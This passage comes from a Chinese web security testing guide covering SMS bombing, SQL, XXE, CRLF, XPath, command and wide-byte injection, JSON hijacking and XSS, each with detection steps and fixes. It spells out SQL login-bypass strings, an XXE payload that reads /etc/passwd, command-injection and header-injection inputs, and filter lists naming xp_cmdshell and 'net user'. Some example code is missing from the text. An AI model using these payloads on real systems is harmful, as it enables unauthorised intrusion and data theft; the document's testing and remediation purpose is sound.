
	
	修复方案
	目前在应用层没有特别好的修复方式，但可以通过部署web防火墙或者入侵防御检测系统来降低该风险：
	1、如果是同一IP，在防火墙策略中把IP封掉。
	2、加长连接超时时间、出错时重新连接、等手法	
### 	4.6.4短信攻击 ###
	漏洞名称	
	短信攻击、短信轰炸、短信DDOS攻击
	漏洞描述	
	短信轰炸攻击时常见的一种攻击，攻击者通过网站页面中所提供的发送短信验证码的功能处，通过对其发送数据包的获取后，进行重放，如果服务器短信平台未做校验的情况时，系统会一直去发送短信，这样就造成了短信轰炸的漏洞。
	危害等级（参考）
	中危

	检测条件	
	Web业务运行正常
	Web页面中具有发送短信验证码功能。
	检测方法	
	手工找到有关网站注册页面，认证页面，是否具有短信发送页面，如果有，则进行下一步。
	1、通过利用burp或者其它抓包截断工具，抓取发送验证码的数据包，并且进行重放攻击，查看手机是否在短时间内连续收到10条以上短信，如果收到大量短信，则说明存在该漏洞。	
	修复方案：
	1、合理配置后台短信服务器的功能，对于同一手机号码，发送次数不超过3-5次，并且可对发送的时间间隔做限制。
	2、页面前台代码编写时，加入禁止针对同一手机号进行的次数大于N次的发送，或者在页面中加入验证码功能，并且做时间间隔发送限制。
	
## 4.7注入攻击类 ##
### 4.7.1SQL注入 ###
	漏洞名称	 
	SQL注入 、SQL盲注
	漏洞描述	
	所谓SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。具体来说，它是利用现有应用程序，将（恶意）的SQL命令注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入（恶意）SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。 造成SQL注入漏洞原因有两个：一个是没有对输入的数据进行过滤（过滤输入），还有一个是没有对发送到数据库的数据进行转义（转义输出）。
	危害等级（参考）
	高危
	
	检测条件
	Web业务运行正常
	1、被测网站具有交互功能模块，涉及到参数提交等等。
	2、例如待测目标URL，假设为http://www.exmaple.com/page.xxx
	3、待测目标存在参数输入，假设为name=value
	检测方法	
	通过web漏洞扫描工具进行对网站爬虫后得到的所有链接进行检测，或者手工判断是否存在注入点，一旦确认存在漏洞，可利用自动化工具sqlmap去尝试注入。几种常见的判断方法：
	1、	数字型。测试方法：
	http://host/test.php?id=100 and 1=1		 返回成功
	http://host/test.php?id=100 and 1=2		 返回失败
	2、	字符型。测试方法：
	http://host/test.php?name=rainman  ’  and ‘1’=‘1	返回成功 
	http://host/test.php?name=rainman ’  and ‘1’=‘2   返回失败
	3、	搜索型。搜索型注入：简单的判断搜索型注入漏洞存在不存在的办法是：
	1）先搜索（'），如果出错，说明90%存在这个漏洞。
	2)然后搜索（%），如果正常返回，说明95%有洞了。 
	3)然后再搜索一个关键字，比如（2006）吧，正常返回所有2006相关的信息。
	4)再搜索（2006%'and 1=1 and '%'='）和（2006%'and 1=2 and '%'='）
	4、	绕过验证（常见的为管理登陆）也称万能密码
	(1) 用户名输入： ‘ or 1=1 or ‘  密码：任意
	(2)Admin’ - -（或‘ or 1=1 or ‘ - -）(admin or 1=1 --) (MS SQL)(直接输入用户名，不进行密码验证)
	(3)用户名输入：admin   密码输入：’ or  ‘1’=’1 也可以
	(4) 用户名输入：admin' or 'a'='a    密码输入：任意
	(5) 用户名输入：‘ or 1=1 - -
	(6) 用户名输入：admin‘ or 1=1 - -  密码输入：任意
	(7) 用户名输入：1'or'1'='1'or'1'='1   密码输入：任意
	5、	不同的SQL服务器连结字符串的语法不同，比如MS SQL Server使用符号+来连结字符串，而Oracle使用符号||来连结：
	http://host/test.jsp?ProdName=Book’     返回错误
	http://host/test.jsp?ProdName=B’+’ook  返回正常
	http://host/test.jsp?ProdName=B’||’ook  返回正常说明有SQL注入
	
	如果应用程序已经过滤了’和+等特殊字符，我们仍然可以在输入时过把字符转换成URL编码（即字符ASCII码的16进制）来绕过检查。
	修复方案	
	建议在代码中对数字类型的参数先进行数字类型变换，然后再代入到SQL查询语句中，这样任何注入行为都不能成功。并且考虑过滤一些参数，比如get参数和post参数中对于SQL语言查询的部分。
	所以防范的时候需要对用户的输入进行检查。特别式一些特殊字符，比如单引号，双引号，分号，逗号，冒号，连接号等进行转换或者过滤。以下为需过滤的敏感字符或者语句：
	需要过滤的特殊字符及字符串有：
		net user
		xp_cmdshell
		add
		exec master.dbo.xp_cmdshell
		net localgroup administrators
		select
		count
		Asc
		char
		mid
		‘
		：
		"
		insert
		delete from
		drop table
		update
		truncate
		from
		%
	除此之外，还可以进行对数据库方面进行加固，来防止sql注入的产生:
	1、不要以sysadmin的身份连接数据库。而是使用特定的数据库用户，只具有读取，写入和更新数据库中适当数据的适当特权。此帐户定期检查，确定它所具有的特权。 
	2、以安全的方式创建SQL。让数据库来完成创建SQL的工作，而不是在代码中完成。使用参数化SQL语句，同时也能提高查询的效率。
	3、保证数据库用户连接信息非明文保存。 
	除此之外，还可以进行对管理方面进行加固，来防止sql注入的产生:
	1、加强编程人员良好的安全编码意识，系统地学习安全编码的知识，减少源代码泄露的风险。
	2、建立起良好的代码审核、审查体系。由专人负责代码的审计，增加安全监督环节。。 
### 4.7.2XML注入 ###
	漏洞名称	
	XML注入
	漏洞描述	
	可扩展标记语言 (Extensible Markup Language, XML) ，用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型，是一种允许用户对自己的标记语言进行定义的源语言。 XML是标准通用标记语言 (SGML) 的子集，非常适合 Web 传输。XML 提供统一的方法来描述和交换独立于应用程序或供应商的结构化数据。发现目前一些普遍使用xml的场景中都存在一种古老的XML实体注入漏洞，这可能导致较为严重的安全问题，使得攻击者可能可以任意访问服务器以及应用所在网络的任何资源；
	检测条件	
	被测网站使用可扩展标记语言。
	危害等级（参考）
	高危
	
	检测方法	
	通过手工篡改网站中xml实体中的头部，加入相关的读取文件或者是链接，或者是命令执行等，如file:///path/to/file.ext；http://url/file.ext；php://filter/read=convert.base64-encode/resource=conf.php，类似如下代码所示：
	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE test-sec [  
	<!ELEMENT methodname ANY >
	<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
	<methodcall>
	<methodname>&xxe;</methodname>
	</methodcall>
	篡改以后，如果可读取file文件或者达到植入的命令效果，则说明存在该漏洞。
	
	修复方案
	
	建议采取以下方式进行修复：
	检查所使用的底层xml解析库，默认禁止外部实体的解析。
	增强对系统的监控，防止此问题被人利用。使用第三方应用代码及时升级补丁
	对于PHP,由于simplexml_load_string函数的XML解析问题出在libxml库上,所以加载实体前可以调用这样一个函数以进行防护，	
### 4.7.3CRLF注入 ###
	漏洞名称	
	 http response splitting attack ，HTTP响应头拆分漏洞
	漏洞描述	
	HTTP响应头拆分漏洞（CRLF）”是一种新型的web攻击方案，它重新产生了很多安全漏洞包括：web缓存感染、用户信息涂改、窃取敏感用户页面、跨站脚本漏洞。这项攻击方案，包括其衍生的一系列技术产生，是由于web应用程序没有对用户的提交进行严格过滤，导致非法用户可以提交一些恶意字符，更具体来说，是对用户输入的CR 和LF字符没有进行严格的过滤。CRLF是”回车 + 换行”（\r\n）的简称。在HTTP协议中，HTTP Header与HTTP Body是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP 内容并显示出来。所以，一旦我们能够控制HTTP 消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话Cookie或者HTML代码，所以CRLF Injection又叫HTTP Response Splitting（HRS）。是应用程序没有正确的过滤用户提供的输入。远程攻击者可以利用这个漏洞影响或错误的显示Web内容服务，缓存或解释的方式，这可能帮助诱骗客户端用户，导致跨站脚本，缓存破坏或页面劫持等漏洞。
	危害等级（参考）
	中危
	
	检测条件	
	1、Web业务运行正常
	2、HTTP Header可进行篡改。
	检测方法	
	通过web扫描工具进行扫描检测，或者手工去判断，手工判断举例：一般网站会在HTTP头中用Location: http://baidu.com这种方式来进行302跳转，所以我们能控制的内容就是Location:后面的XXX某个网址，如下所示为抓包得到的相关数据包：
	HTTP/1.1 302 Moved Temporarily 
	Date: Fri, 27 Jun 2014 17:52:17 GMT 
	Content-Type: text/html 
	Content-Length: 154 
	Connection: close 
	Location: http://www.sina.com.cn
	然后手工输入链接：
	http://www.sina.com.cn%0aSet-cookie:JSPSESSID%3Dwooyun后，再次抓包得到如下
	HTTP/1.1 302 Moved Temporarily 
	Date: Fri, 27 Jun 2014 17:52:17 GMT 
	Content-Type: text/html 
	Content-Length: 154 
	Connection: close 
	Location: http://www.sina.com.cn 
	Set-cookie: JSPSESSID=wooyun
	这个时候这样我们就给访问者设置了一个SESSION，可以发现在http header处多了一行，如果某应用刚好可以受这个参数控制，那将会有重大影响，否则，该漏洞的危害比较小。。当然，HRS并不仅限于会话固定，通过注入两个CRLF就能造成一个无视浏览器Filter的反射型XSS。
	
	修复方案	
	修复方案如下：
	1、建议过滤\r 、\n之类的换行符，避免输入的数据污染到其他HTTP头。具体过滤措施，可参考SQL注入的修复方案。	
### 4.7.4XFF注入 ###
	漏洞名称	
	XFF注入、X-Forwarded-for注入
	漏洞描述	
	XFF，是X-Forwarded-for的缩写，XFF注入是SQL注入的一种，该注入原理是通过修改X-Forwarded-for头对带入系统的dns进行sql注入，从而得到网站的数据库内容。
	危害等级（参考）
	中危
	
	检测条件	
	Web业务运行正常
	HTTP Header中存在X-Forwarded-for参数的调用。
	检测方法	
	通过火狐的插件X-Forwarded-for header 1.0.1.1 进行对本地IP地址进行修改，为其带入的IP地址加入敏感字符，如图所示：：



	1、修改后，找到网站登录页面或者其它功能交互页面，提交数据后，查看是否会报错，如果会报错，则说明存在该漏洞，sqlmap攻击效果：



	修复方案：
	1、过滤http头中的X-Forwarded-for header中的内容，不允许其插入敏感字符，过滤字符参考sql注入修复方案。
	2、过滤以下敏感字符
	需要过滤的特殊字符及字符串有：
		net user
		xp_cmdshell
		add
		exec master.dbo.xp_cmdshell
		net localgroup administrators
		select
		count
		Asc
		char
		mid
		‘
		：
		"
		insert
		delete from
		drop table
		update
		truncate
		from
		%
	
### 4.7.5XPATH 注入 ###
	漏洞名称	
	XPATH 注入
	漏洞描述	
	XPath注入攻击是指利用XPath 解析器的松散输入和容错特性，能够在URL、表单或其它信息上附带恶意的XPath 查询代码，以获得权限信息的访问权并更改这些信息。XPath注入攻击是针对Web服务应用新的攻击方法，它允许攻击者在事先不知道XPath查询相关知 识的情况下，通过XPath查询得到一个XML文档的完整内容。
	XPath 注入攻击利用两种技术，即 XPath 扫描和 XPath 查询布尔化。通过 该攻击，攻击者可以控制用来进行 XPath 查询的 XML 数据库。这种攻击可以有 效地对付使用 XPath 查询（和 XML 数据库） 来执行身份验证、查找或者其它 操作。 XPath 注入攻击同 SQL 注入攻击类似， 但和 SQL 注入攻击相比较， XPath 在以下方面具有优势。 （1） 广泛性。XPath 注入攻击利用的是 XPath 语法，由于 XPath 是一种标准 语言，因此只要是利用 XPath 语法的 Web 应用程序如果未对输入的 XPath 查 询做严格的处理都会存在 XPath 注入漏洞，所以可能在所有的 XPath 实现中都 包含有该弱点，这和 SQL 注入攻击有 很大区别。在 SQL 注入攻击过程中根据数据库支持的 SQL 语言不同，注入攻击的实现可能不同。 （2） 危害性大。XPath 语言几乎可以引用 XML 文档的所有部分，而这样的引 用一般没有访问控制限制。但在 SQL 注入攻击中，一个“用户”的权限可能被 限制到 某一特定的表、列或者查询，而 XPath 注入攻击可以保证得到完整的 XML 文档，即完整的数据库。只要 Web 服务应用具有基本的安全漏洞，即可构 造针对 XPath 应用的自动攻击
	危害等级（参考）
	中危
	
	检测条件	
	Web业务运行正常
	检测方法	
	XPath注入攻击主要是通过构建特殊的输入，这些输入往往是XPath语法中的一些组合，这些输入将作为参数传入Web 应用程序，通过执行XPath查询而执行入侵者想要的操作，下面以登录验证中的模块为例，说明XPath注入攻击的实现原理和检测方法，在Web 应用程序的登录验证程序中，一般有用户名（username）和密码（password） 两个参数，程序会通过用户所提交输入的用户名和密码来执行授权操作。若验证数据存放在XML文件中，其原理是通过查找user表中的用户名 （username）和密码（password）的结果来进行授权访问，例存在user.xml文件如下：
	<users>
	       <user>
	           <firstname>Ben</firstname>
	           <lastname>Elmore</lastname>
	           <loginID>abc</loginID>
	           <password>test123</password>
	       </user>
	       <user>
	           <firstname>Shlomy</firstname>
	           <lastname>Gantz</lastname>
	           <loginID>xyz</loginID>
	           <password>123test</password>
	       </user>
	则在XPath中其典型的查询语句如下：
	//users/user[loginID/text()='xyz' and password/text()='123test']
	但是，可以采用如下的方法实施注入攻击，绕过身份验证。如果用 户传入一个login 和password，例如loginID = 'xyz' 和password = '123test'，则该查询语句将返回true。但如果用户传入类似' or 1=1 or ''=' 的值，那么该查询语句也会得到true 返回值，因为XPath 查询语句最终会变成如下代码：
	//users/user[loginID/text()='' or 1=1 or ''='' and password/text()='' or 1=1 or ''='']
	这个字符串会在逻辑上使查询一直返回true 并将一直允许攻击者访问系统。攻击者可以利用XPath 在应用程序中动态地操作XML 文档。攻击完成登录可以再通过XPath盲入技术获取最高权限帐号和其它重要文档信息。
	修复方案	
	目前专门的 XPath 攻击防御技术还不是太多，但是 SQL 注入攻击防御技术 可以加以改进，应用到 XPath 注入攻击防御。具体技术总结如下：
	1、数据提交到服务器上端，在服务端正式处理这批数据之前，对提交数据的 合法性进行验证。
	2、检查提交的数据是否包含特殊字符，对特殊字符进行编码转换或替换、删 除敏感字符或字符串。
	3、对于系统出现的错误信息，以 IE 错误编码信息替换，屏蔽系统本身的出错 信息。
	4、参数化 XPath 查询，将需要构建的 XPath 查询表达式，以变量的形式表 示，变量不是可以执行的脚本。如下代码可以通过创建保存查询的外部文件使查 询参数化： declare variable $loginID as xs：string external； declare variable $password as xs：string external； //users/user[@loginID=$loginID and @password= $password]。
	5、通过 MD5、 SSL 等加密算法， 对于数据敏感信息和在数据传输过程中加密， 即使某些非法用户通过非法手法获取数据包，看到的也是加密后的信息。
	其他说明	
### 4.7.6命令注入 ###
	漏洞名称	
	命令注入
	漏洞描述	
	Command Injection，即命令注入攻击，是指由于Web应用程序对用户提交的数据过滤不严格，导致黑客可以通过构造特殊命令字符串的方式，将数据提交至Web应用程序中，并利用该方式执行外部程序或系统命令实施攻击，非法获取数据或者网络资源等。 在命令注入的漏洞中，最为常见的是PHP的命令注入。PHP命令注入攻击存在的主要原因是Web应用程序员在应用PHP语言中一些具有命令执行功能的函数时，对用户提交的数据内容没有进行严格的过滤就带入函数中执行而造成的。例如，当黑客提交的数据内容为向网站目录写入PHP文件时，就可以通过该命令注入攻击漏洞写入一个PHP后门文件，进而实施进一步的渗透
	攻击。
	危害等级（参考）
	高危
	
	检测条件	
	1、Web业务运行正常
	2、已知某页面URL（假设为http://www.exmaple.com/abc.jsp）接收参数，且参数中接收类似于系统命令的字符（假设为cmd=ls）
	检测方法	
	通过web扫描工具进行扫描，如果具有该漏洞，一般可以扫描得到，也可以通过手工去进行验证：打开网站，在地址栏中的网址后面输入“?cmd=所要执行的命令”，如下图所示的http://192.168.1.3/?cmd=net user，可以发现命令能够成功执行：



	Php网站测试也使用同样的方法来进行检测
	修复方案	
	PHP中命令注入攻击漏洞带来的危害和影响很严重。防范命令注入攻击漏洞的存在可以通过以下几种方法：
	尽量不要执行外部的应用程序或命令。
	1、使用自定义函数或函数库实现外部应用程序或命令的功能。
	2、在执行system、eval等命令执行功能的函数前，确定参数内容。
	3、使用escapeshellarg函数处理相关参数。Escapeshellarg函数会将任何引起参数或命令结束的字符进行转义，如单引号“’”会被转义为“\’”，双引号“””会被转义为“\””，分号“;”会被转义为“\;”，这样escapeshellarg会将参数内容限制在一对单引号或双引号里面，转义参数中所包含的单引号或双引号，使其无法对当前执行进行截断，实现防范命令注入攻击的目的。
	4、使用safe_mode_exec_dir执行可执行的文件路径。将php.ini文件中的safe_mode设置为On，然后将允许执行的文件放入一个目录中，并使用safe_mode_exec_dir指定这个可执行的文件路径。这样，在需要执行相应的外部程序时，程序必须在safe_mode_exec_dir指定的目录中才会允许执行，否则执行将失败。
	
### 4.7.7链接或框架注入 ###
	漏洞名称	
	框架注入、链接注入
	漏洞描述	
	一个框架注入攻击是一个所有基于GUI的浏览器攻击，它包括任何代码如JavaScript，VBScript(ActivX),Flash,AJAX(html+js+py)。代码被注入是由于脚本没有对它们正确验证，攻击者有可能注入含有恶意内容的 frame 或 iframe 标记。 “链接注入”是修改站点内容的行为，其方式为将外部站点的 URL 嵌入其中，或将有易受攻击的站点中的脚本 的 URL 嵌入其中。将 URL 嵌入易受攻击的站点中，攻击者便能够以它为平台来启动对其他站点的攻击，以及攻击这个易受攻击的站点本身。
	危害等级（参考）
	中危
	
	检测条件	
	Web业务运行正常
	被测网站具有交互功能模块，涉及到参数get和post提交等等。
	检测方法	
	如果应用程序使用框架，检查主要浏览器窗口的HTML源代码，其中应包含框架标记（frameset）的代码。通过对网站中的get提交的url中的参数进行框架或者链接注入，如图注入到参数id中后效果:
	1、http://www2.xxx.com/a/index.php?id=Fiframe%3E%3CIFRAME+SRC%3D
	%22http%3A%2F%2Fwww.baidu.com%22%3E：



	修复方案	
	建议过滤出所有以下字符：：
	[1] |（竖线符号） 
	[2] & （& 符号） 
	[3];（分号） 
	[4] $（美元符号） 
	[5] %（百分比符号） 
	[6] @（at 符号） 
	[7] '（单引号） 
	[8] "（引号） 
	[9] \'（反斜杠转义单引号） 
	[10] \\"（反斜杠转义引号） 
	[11] <>（尖括号） 
	[12] ()（括号） 
	[13] +（加号） 
	[14] CR（回车符，ASCII 0x0d） 
	[15] LF（换行，ASCII 0x0a） 
	[16] ,（逗号） 
	[17] \（反斜杠）
	详细过滤方案，请参考XSS跨站漏洞修复方案。
		
### 4.7.8Json hijacking/Json劫持注入 ###
	漏洞名称	
	Json hijacking 、Json劫持漏洞、Json注入攻击
	漏洞描述	
	JSON(JavaScript Object Notation) 是一种轻量级的数据交换格式。易于人阅读和编写。同时也易于机器解析和生成，这种纯文本的数据交互方式由于可以天然的在浏览器中使用，所以随着ajax和web业务的发展得到了广大的发展，各种大型网站都开始使用，包括Yahoo，Google，Tencent，Baidu等等，目前各银行都有用这种方式来实现数据交互。但是如果这种交互的方式用来传递敏感的数据，并且传输的时候没有做太多安全性控制的话将导致安全漏洞，根据敏感信息的不同导致会导致应用遭受不同级别的攻击。
	危害等级（参考）
	中危
	
	检测条件	
	已知Web网站应用交互采用json的数据交换或者传输。
	检测方法	
	通过抓包分析应用里的数据交互，我们经常可以发现敏感信息泄露的情况发生。通常的方式包括，抓取应用的交互，查看里面敏感的数据，如果在传输的时候没有安全控制，就可以发现此类漏洞了。主要的危害是对于一些数据敏感的应用会造成较严重的攻击，对于数据不敏感甚至是对第三方公开的应用来说，这类问题基本不算是安全问题，通过在第三方域使用javascript hijacking的方式我们就可以窃取到敏感数据了。一般的exploit代码形式如下：
	  
	  
	
	修复方案	
	尽量避免跨域的数据传输，对于同域的数据传输使用xmlhttp的方式作为数据获取的方式，依赖于javascript在浏览器域里的安全性保护数据。如果是跨域的数据传输，必须要对敏感的数据获取做权限认证，具体的方式可以包括：
	1、referer的来源限制，利用前端referer的不可伪造性来保障请求数据的应用来源于可信的地方，此种方式力度较稀，完全依赖于referer，某些情况下（如存在xss）可能导致被绕过。
	2、token的加入，严格来说，这种利用javascript hijacking的方式获取数据是CSRF的一种，不过较之传统的CSRF不能获取数据只能提交而言，这种方式利用javascript可以获取一些敏感信息而已。如果我们能让攻击者对接口未知，就可以实现json hijacking的防御了。利用token对调用者的身份进行认证，这种方式对于调用者的身份会要求力度较细，但是一旦出现xss也可能导致前端Token的泄露，从而导致保护失效。
	3、对于同域的json使用情况下，可以在数据的输出头部加入while(1);的方式避免数据被script.
	其他说明	
### 4.7.9宽字节注入# ###
	漏洞名称	
	宽字节注入
	漏洞描述	
	宽字节注入是相对于单字节注入而言的，该注入跟HTML页面编码无关，宽字节注入常见于mysql中，GB2312、GBK、GB18030、BIG5、Shift_JIS等这些都是常说的宽字节，实际上只有两字节。宽字节带来的安全问题主要是吃ASCII字符（一字节）的现象，当%df’ 被PHP转义（开启GPC、用addslashes函数，或者icov等），单引号被加上反斜杠\，变成了 %df\’，其中\的十六进制是 %5C ，那么现在 %df\’ = %df%5c%27，如果程序的默认字符集是GBK等宽字节字符集，则MYSQL用GBK的编码时，会认为 %df%5c 是一个宽字符，也就是x’，也就是说：%df\’ = %df%5c%27=x’，有了单引号可以注入了，
	危害等级（参考）
	中危，可被利用后可以为高危
	
	检测条件	
	1、Web业务运行正常。
	2、Php+mysql的搭配，则需要进行检测。
	检测方法	
	检测时，了解了其原理为：php 使用php_escape_shell_cmd这个函数来转义命令行字符串时是作为单字节处理的 而当操作系统设置了GBK、EUC-KR、SJIS等宽字节字符集时候，将这些命令行字符串传递给MySQL处理时是作为多字节处理的，
	如：http://localhost/gbk.php?username=%df%27 //多字节编码
	%df%27=運'    //看，出单引号了，后面就可以构造了
	http://localhost/test/b.php?username=%df%27 or1%23
	sql语句类似这样: SELECT * FROMdemo WHERE username = '運' or 1#' LIMIT 1这样就可以注入，或者id=%df’%20or%201=1%20limit%201,1%23&pass=
	
	修复方案	
	1、改Windows下的MySQL配置文件一般是 my.ini，Linux下的MySQL配置文件一般是my.cnf，在初始化连接和字符集之后，使用SET character_set_client=binary来设定客户端的字符集是二进制的。character_set_client指定的是SQL语句的编码，如果设置为 binary，MySQL就以二进制来执行，这样宽字节编码问题就没有用武之地，如
	mysql_query(”SET character_set_client=binary”);
	2、转义数据：一些合法的数据可能在无意中破坏 SQL 语句本身的格式。使用 mysql_escape_string() 或者所使用数据库提供的转移函数。如果没有提供这样的函数，addslashes() 也是不错的最后选择. 原理是，mysql_real_escape_string与addslashes的不同之处在于其会考虑当前设置的字符集，不会出现前面e5和5c拼接为一个宽字节的问题。
	
	具体的检测与绕过的方法请参考：http://m.blog.csdn.net/blog/u011721501/42874517

## 4.8客户端攻击类 ##
暴力破解是目前最直接有效的攻击方式，特别对于电信业务来说，很多情况下口令都为6位纯数字，很容易被攻击。本测试项在于检查认证系统对暴力破解的防护性。

在以下的一些测试中，围绕能否满足暴力破解进行的设计，未设计直接进行暴力破解的攻击用例。如果需要，测试人员可以使用hydra和AppScan中集成的Authentication Tester工具进行。
### 4.8.1XSS跨站脚本攻击漏洞 ###
	漏洞名称	
	存储型XSS跨站脚本，反射型XSS跨站脚本，
	漏洞描述	
	跨站脚本攻击的英文全称是Cross Site Script，为了和样式表区分，缩写为XSS。发生的原因是网站将用户输入的内容输出到页面上，在这个过程中可能有恶意代码被浏览器执行。跨站脚本攻击,它指的是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意用户的特殊目的。XSS属于被动式的攻击，因为其被动且不好利用，所以许多人常忽略其危害性。而本文主要讲的是利用XSS得到目标服务器的shell。技术虽然是老技术，但是其思路希望对大家有帮助。已知的跨站脚本攻击漏洞有三种：1）存储式；2）反射式；3）基于DOM。
	1、	存储型跨站脚本攻击涉及的功能点：用户输入的文本信息保存到数据库中，并能够在页面展示的功能点，例如用户留言、发送站内消息、个人信息修改等功能点。
	2、反射型跨站脚本攻击涉及的功能点：URL参数需要在页面显示的功能点都可能存在反射型跨站脚本攻击，例如站内搜索、查询功能点。
	3、基于DOM跨站脚本攻击涉及的功能点：涉及DOM对象的页面程序，包括（不限这些）： 
	document.URL
	document.URLUnencoded
	document.location
	document.referrer
	window.location
	危害等级（参考）
	中危
	
	检测条件	
	1、Web业务运行正常
	2、已知待测目标URL，假设为http://www.exmaple.com/page.xxx
	3、待测目标存在参数输入，或者以POST方式提交参数，显示为表单方式，假设为name=value。
	4、在某种情况下，用户输入被重新显示在网页上，包括名字、帐号、检索结果等等（说明目标网站服务器并没有对用户提交数据检测）。
	检测方法	
	GET方式跨站脚本： 
	1、在输入的参数后逐条添加以下语句，以第一条为例，输入
	http://www.exmaple.com/page.xxx?name=只要其中一条弹出显示123456的告警框，就说明存在跨站漏洞，记录漏洞，停止测试。
	2、如果没有弹出显示123456的告警框，则在返回的页面上单击鼠标右键，选择“查看源文件”。
	3、查找网页源文件中是否包含完整的字符串，则不管有没有弹出显示123456的告警框，都表明存在跨站脚本漏洞。
	4、由于有些HTML元素（比如<textarea>或”）会影响脚本的执行，所以不一定能够正确弹出123456告警框，需要根据返回网页源文件的内容，构造value的值，比如
	多行文本输入框：
	</textarea>
	文本输入框：
	</td>  
	'>
	">
	</title>
	-->
	[img]javascript:alert(123456)[/img]
	<script>
	

	需要对页面上所有可以提交参数的地方进行测试。具体跨站脚本的测试语句根据实际情况的不同而不同，可自行构造，以及触发事件等切换，这里只列出了一些最常见构造语句。
	Post方式跨站脚本： 
	在POST表单中逐条输入以下语句，只要其中一条弹出显示123456的对话框，就说明存在跨站漏洞，记录漏洞，停止测试。
	
	[img]javascript:alert(123456);[/img]
	如果没有弹出显示123456的告警框，则在返回的页面上单击鼠标右键，选择“查看源文件”
	查找网页源文件中是否包含完整的字符串，则不管有没有弹出显示123456的告警框，都表明存在跨站脚本漏洞。
	由于有些HTML元素（比如<textarea>或”）会影响脚本的执行，所以不一定能够正确弹出123456告警框，需要根据返回网页源文件的内容，构造value的值，比如
	多行文本输入框：
	</textarea>
	文本输入框：
	</td>  
	'>
	">
	</title>
	-->
	[img]javascript:alert(123456)[/img]
	<script>
	

	需要对页面上所有可以提交参数的地方进行测试。具体跨站脚本的测试语句根据实际情况的不同而不同，可自行构造，以及触发事件等切换，这里只列出了一些最常见构造语句。
	修复方案	
	对于XSS跨站漏洞，可以采用以下修复方式：
	总体修复方式：验证所有输入数据，有效检测攻击；对所有输出数据进行适当的编码，以防止任何已成功注入的脚本在浏览器端运行。具体如下 ：
	1、输入验证：某个数据被接受为可被显示或存储之前，使用标准输入验证机制，验证所有输入数据的长度、类型、语法以及业务规则。
	2、输出编码：数据输出前，确保用户提交的数据已被正确进行entity编码，建议对所有字符进行编码而不仅局限于某个子集。
	3、明确指定输出的编码方式：不要允许攻击者为你的用户选择编码方式(如ISO 8859-1或 UTF 8)。
	4、注意黑名单验证方式的局限性：仅仅查找或替换一些字符(如"<" ">"或类似"script"的关键字)，很容易被XSS变种攻击绕过验证机制。
	5、警惕规范化错误：验证输入之前，必须进行解码及规范化以符合应用程序当前的内部表示方法。请确定应用程序对同一输入不做两次解码。对客户端提交的数据进行过滤，一般建议过滤掉双引号（”）、尖括号（<、>）等特殊字符，或者对客户端提交的数据中包含的特殊字符进行实体转换，比如将双引号（”）转换成其实体形式&quot;，<对应的实体形式是&lt;，<对应的实体形式是&gt;以下为需过滤的常见字符：
	[1] |（竖线符号）
	[2] & （& 符号）
	[3];（分号）
